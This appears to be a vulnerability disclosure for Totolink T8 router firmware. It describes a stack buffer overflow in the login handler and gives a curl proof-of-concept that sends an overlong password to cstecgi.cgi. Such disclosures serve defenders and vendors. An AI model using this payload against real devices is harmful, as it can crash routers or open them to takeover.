


## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8 V4.1.5cu.861_B20230220 and V4.1.5cu.862_B20230228

## Vulnerability details

The Totolink T8 firmware version V4.1.5cu.861_B20230220 and V4.1.5cu.862_B20230228 contain a stack-based buffer overflow vulnerability in the `loginauth` function (`sub_41FCCC`). The vulnerability allows attackers to overwrite the stack via a crafted password parameter in a POST request. The `v3` variable receives the user-controlled password input. This data is subsequently passed to `sub_429CFC`, which performs a decoding operation from `a1` to `a2` without validating the data length. This lack of boundary checks results in a stack overflow affecting the `v25` buffer.





## POC

```sh
curl http://127.0.0.1/cgi-bin/cstecgi.cgi \
     -H "Content-Type: application/json" \
     -d "{\"topicurl\":\"loginAuth\", \"username\": \"admin\", \"password\": \"$(printf 'a%.0s' {1..4096})\", \"flag\": \"0\"}"
```
